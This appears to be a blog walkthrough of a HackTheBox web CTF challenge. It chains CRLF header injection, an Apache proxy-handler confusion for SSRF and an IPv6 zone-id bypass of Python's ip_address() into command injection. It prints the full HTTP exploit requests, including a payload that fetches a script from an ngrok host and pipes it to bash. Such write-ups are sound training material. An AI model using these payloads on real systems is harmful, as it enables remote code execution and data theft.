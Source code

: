 ```yaml
---
layout: post
title: "[HTB] Hackthebox Cyber Attack Writeup"
slug: "cyberattack"
date: "2025-03-29"
comments: false
categories:
  - hacking
tags:
  - ctf
  - hackthebox
  - 2025
  - Cyber Apocalypse
  - apache
  - ssrf
  - crlf
---
```


This is easy web challenge from [hackthebox.com] Cyber Apocalypse 2026 Tales from Eldoria. In this challenge we are provided with an `ip:port` and `source code` of the web app.

Navigating to the web app we are greeted with this page.
![index](/images/cyberAttack/index.png)

We have functionality to attack a `domain` and `ip` but only `domain` is enabled when we enter inputs.
![domain_test](/images/cyberAttack/attack_domain_test.com.png)

We can only input valid domain names with TLD, and entry of `localhost` doesn't work.
![localhost](/images/cyberAttack/attack_domain_localhost.png)

Since we are provided with the source code, let's dive right into it without wasting time on enumerating the site and its functionalities.

In `apache/apache2.conf`.

```conf
ServerName CyberAttack

AddType application/x-httpd-php .php

<Location "/cgi-bin/attack-ip">
Order deny,allow
Deny from all
Allow from 127.0.0.1
Allow from ::1
</Location>
```

We can see that the path `/cgi-bin/attack-ip` is only accessible from localhost and all attempts to access it will be denied as stated in the `apache2.conf`.

![403](/images/cyberAttack/403_attack_ip.png)

Now let's analyse index page at `/src/index.php`
```javascript
...
const isLocalIP = (ip) => {
return ip === "127.0.0.1" || ip === "::1" || ip.startsWith("192.168.");
};
// Get the user's IP address
const userIP = "<?php echo $_SERVER['REMOTE_ADDR']; ?>";
// Enable/disable the "Attack IP" button based on the user's IP
const attackIPButton = document.getElementById("attack-ip");
// Enable buttons if required fields are filled
const enableButtons = () => {
const playerName = document.getElementById("user-name").value;
const target = document.getElementById("target").value;
const attackDomainButton = document.getElementById("attack-domain");
...
```

`userIP` is taken and buttons are enabled based on the ip. Nothing much to go on here. We see some calls to `cgi-bin/*` so let's shift our focus on those first.

For the file `src/cgi-bin/attack-domain`
```python
#!/usr/bin/env python3
import cgi
import os
import re  

def is_domain(target):
    return re.match(r'^(?!-)[a-zA-Z0-9-]{1,63}(?<!-)\.[a-zA-Z]{2,63}$', target)

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')

if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
elif is_domain(target):
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {target}')
    print(f'Location: ../?result=Succesfully attacked {target}!')
else:
    print(f'Location: ../?error=Hey {name}, watch it!')
print('Content-Type: text/html')
print()
```

We can see that it takes two parameters from the http request `name` and `target` and then the `target` parameter is passed through `is_domain(target)` function which uses a regex match to check if it a valid TLD address. So basically `test.com` works but `sub.test.com`,`-test.com`, `test.com/folder` and other `urls` don't work and an error is shown.

If the domain name check passes then the input is used to call a system command using `os.popen` which calls `ping` on the target. This is a serious security flaw if somehow the `regex` is bypassed. For example an attacker could gain `RCE` with payloads like `test.com;whoami`. A reflected `XSS` can also be triggered since the `name` is printed if an error occurs. 

- A possible RCE if regex is bypassed on the domain name.
- Reflected XSS on name parameter.

Let's proceed further and analyse the next file `src/cgi-bin/attack-ip`.

```python
#!/usr/bin/env python3
import cgi
import os
from ipaddress import ip_address  

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')
 
if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}')
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')
print('Content-Type: text/html')
print()
```

This is similar to our `attack-domain` python script but this time the target is an IP address and it uses an import of `ip_address` which check if the `target` is a valid IP address. This code also has the same vulnerability to get `RCE` since it uses `os.popen` to run a `ping` on the `target`. 

While trying to bypass the `regex` on `attack-domain` does not yield us anything, we  shift our focus on the `name` parameter.

We can see that when an error is triggered, the `name` parameter is also returned in the `http` response headers.

![header_error](/images/cyberAttack/header_error.png)

So we can try other vulnerabilities. 

We can try `crlf` to inject additional headers.
![injected_headers](/images/cyberAttack/injected_headers.png)

After some researching we find this wonderful blog post on apache's vulnerability by [orangetsai](https://blog.orange.tw/posts/2024-08-confusion-attacks-en/) 
![blog_excerpt](/images/cyberAttack/blog_excerpt.png)

We test the exploit we got from the blog.
![proxy](/images/cyberAttack/proxy_works.png) 

We are able to cause ssrf on the server.

We try it on the `attack-ip` but got error.
![attack_ip](/images/cyberAttack/trying_ssrf_attack_ip.png)

So we url encode the characters.
![url_encode](/images/cyberAttack/url_encode.png)

```http
GET /cgi-bin/attack-domain?target=test&name=test%0d%0aLocation:/ooo%0d%0aContent-Type:proxy:http%3a%2f%2f127.0.0.1%2fcgi-bin%2fattack-ip%3ftarget%3d10.10.10.10%26name=test2%0d%0a%0d%0a
```

We now have a way to perform `SSRF` to call `attack-ip` but we also have to find a way to bypass the `ip_address()` check in the code to execute any code.

```python
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}')
    print(f'Location: ../?result=Succesfully attacked {target}!')

```

After some digging around on the `ip_address()` in python, we can see that in ipv6 we can insert zone id using `%` character.  So `::1%test` is also a valid ipv6 entry.

![bypass](/images/cyberAttack/bypass_ipAddress.png)
We are able to bypass the check get code execution.

Let's proceeds further.
```entry.sh
#!/bin/bash
mv /flag.txt /flag-$(head /dev/urandom | tr -dc A-Za-z0-9 | head -c 15).txt

# Start supervisord
/usr/bin/supervisord -c /etc/supervisor/conf.d/supervisord.conf
```

We can see that the flag name is randomised.

We also know that that we won't get output of the command executed from the server so we can either get a reverse shell or get the contents of the flag as a web request or write it in the webroot folder and access it from there. But in our attack input we cannot use `/` and neither can we `base64` encode since `url` are not character sensitive. So we have to find a way to execute our payload.

Since we are not using any VPS and don't have a static public IP, we will use `ngrok` to make our host machine publicly available.

![ngrok](/images/cyberAttack/ngrok_online.png)

We create a `python` http server on our host and get a callback to our machine.
In `ngrok` free tier there is a page which block and then redirects our request so we have to user `curl --location` in our request to follow the request. Just a minor inconvenience.

![curl_ngrok](/images/cyberAttack/curl_ngrok.png)

We get a request on our python server and can see that our `RCE` has been successfully achieved.
![python_http](/images/cyberAttack/python_http_server.png)

Now let's host our malicious code and host it on our server and since `/` cannot be used, we will use the `index.html` to host our code and `pipe` it to `bash`.

```index.html
cat /flag* > /var/www/html/pwned.txt
```

So our request will look like this.
```http
GET /cgi-bin/attack-domain?target=error&name=test%0d%0aLocation:/ooo%0d%0aContent-Type:proxy:http%3a%2f%2f127.0.0.1%2fcgi-bin%2fattack-ip%3ftarget%3d::1%$(curl%2b--location%2b842c-152-58-7-106.ngrok-free.app|bash)%26name=test2%0d%0a%0d%0a 
```

![burp_success](/images/cyberAttack/burp_success.png)

The code got successfully executed and we got our flag by navigating to `/pwned.txt`.
![pwned](/images/cyberAttack/pwned.png)

This easy challenge from hackthebox was actually difficult and a fun challenge to solve. 

> Overall 42/77 Challenges solved from the team. Not bad!

![certificate](/images/cyberAttack/certificate_of_participation.png)